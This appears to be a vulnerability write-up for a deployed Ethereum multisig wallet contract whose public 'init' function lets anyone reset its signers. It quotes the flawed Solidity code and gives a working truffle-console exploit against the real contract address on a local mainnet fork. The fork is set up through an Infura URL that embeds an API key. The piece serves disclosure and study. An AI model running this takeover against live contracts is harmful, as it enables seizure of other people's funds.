 # Description 

The vulnerable contract was deployed on the [mainnet](https://etherscan.io/address/0x6630f77801e3d8ee4c624a628d0979ab9e7d111b#contracts) and its vulnerability was found by @samczsun and reported on the ETHSecurity Community Telegram channel.

The Smart Contract was designed to act as a 2 out of 3 multisignature wallet, but the function that was assigning the signers was exposed as a public one and without any authorization check, enabling anyone to set the signers of the SimpleWallet.

Before the vulnerable function 'init', we can see the same code in the constructor of WalletSimple and a comment stating that the signers cannot be changed once they are set:

```
  /**
   * Set up a simple multi-sig wallet by specifying the signers allowed to be used on this wallet.
   * 2 signers will be required to send a transaction from this wallet.
   * Note: The sender is NOT automatically added to the list of signers.
   * Signers CANNOT be changed once they are set
   *
   * @param allowedSigners An array of signers on the wallet
   */
  function WalletSimple(address[] allowedSigners) {
    if (allowedSigners.length != 3) {
      // Invalid number of signers
      throw;
    }
    signers = allowedSigners;
  }

    function init(address[] allowedSigners) {
    if (allowedSigners.length != 3) {
      // Invalid number of signers
      throw;
    }
    signers = allowedSigners;
  }
```

The developer's intention was clear, but forgot to either protect the init function or to completely remove it, since the Contract constructor does already what the developer originally intended to do.

# How to exploit on a local environment

```
npm install -g ganache-cli truffle
npm install truffle-contract
# Fork the mainnet locally from block 7899146
ganache-cli -f https://mainnet.infura.io/v3/45aad5d782be4a68904db4fdf74c315c@7899146 --debug
truffle console # on a different terminal
```

Then in the truffle development console run:

```
const abi = [{"constant":false,"inputs":[{"name":"toAddress","type":"address"},{"name":"value","type":"uint256"},{"name":"tokenContractAddress","type":"address"},{"name":"expireTime","type":"uint256"},{"name":"sequenceId","type":"uint256"},{"name":"signature","type":"bytes"}],"name":"sendMultiSigToken","outputs":[],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":true,"inputs":[{"name":"","type":"uint256"}],"name":"signers","outputs":[{"name":"","type":"address"}],"payable":false,"stateMutability":"view","type":"function"},{"constant":false,"inputs":[{"name":"forwarderAddress","type":"address"},{"name":"tokenContractAddress","type":"address"}],"name":"flushForwarderTokens","outputs":[],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":false,"inputs":[{"name":"toAddress","type":"address"},{"name":"value","type":"uint256"},{"name":"data","type":"bytes"},{"name":"expireTime","type":"uint256"},{"name":"sequenceId","type":"uint256"},{"name":"signature","type":"bytes"}],"name":"sendMultiSig","outputs":[],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":false,"inputs":[{"name":"signer","type":"address"}],"name":"isSigner","outputs":[{"name":"","type":"bool"}],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":false,"inputs":[],"name":"getNextSequenceId","outputs":[{"name":"","type":"uint256"}],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":false,"inputs":[],"name":"createForwarder","outputs":[{"name":"","type":"address"}],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":true,"inputs":[],"name":"safeMode","outputs":[{"name":"","type":"bool"}],"payable":false,"stateMutability":"view","type":"function"},{"constant":false,"inputs":[{"name":"allowedSigners","type":"address[]"}],"name":"init","outputs":[],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":false,"inputs":[],"name":"activateSafeMode","outputs":[],"payable":false,"stateMutability":"nonpayable","type":"function"},{"inputs":[{"name":"allowedSigners","type":"address[]"}],"payable":false,"stateMutability":"nonpayable","type":"constructor"},{"payable":true,"stateMutability":"payable","type":"fallback"},{"anonymous":false,"inputs":[{"indexed":false,"name":"from","type":"address"},{"indexed":false,"name":"value","type":"uint256"},{"indexed":false,"name":"data","type":"bytes"}],"name":"Deposited","type":"event"},{"anonymous":false,"inputs":[{"indexed":false,"name":"msgSender","type":"address"}],"name":"SafeModeActivated","type":"event"},{"anonymous":false,"inputs":[{"indexed":false,"name":"msgSender","type":"address"},{"indexed":false,"name":"otherSigner","type":"address"},{"indexed":false,"name":"operation","type":"bytes32"},{"indexed":false,"name":"toAddress","type":"address"},{"indexed":false,"name":"value","type":"uint256"},{"indexed":false,"name":"data","type":"bytes"}],"name":"Transacted","type":"event"},{"anonymous":false,"inputs":[{"indexed":false,"name":"msgSender","type":"address"},{"indexed":false,"name":"otherSigner","type":"address"},{"indexed":false,"name":"operation","type":"bytes32"},{"indexed":false,"name":"toAddress","type":"address"},{"indexed":false,"name":"value","type":"uint256"},{"indexed":false,"name":"tokenContractAddress","type":"address"}],"name":"TokenTransacted","type":"event"}]

const address = '0x6630f77801e3d8ee4c624a628d0979ab9e7d111b'

var contract = require("truffle-contract");
var c = contract({abi: abi, address: address});
var provider = new web3.providers.HttpProvider("http://localhost:8545");
c.setProvider(provider);
var app;
c.at(address).then(function(instance){app = instance;});

var account0 = (await web3.eth.getAccounts())[0]
var account1 = (await web3.eth.getAccounts())[1]
var account2 = (await web3.eth.getAccounts())[2]

app.init([account0, account1, account2], {from: account0})

app.isSigner.call(account0, {from: account0})
// true
app.isSigner.call(account0, {from: account1})
// true
app.isSigner.call(account0, {from: account2})
// true
```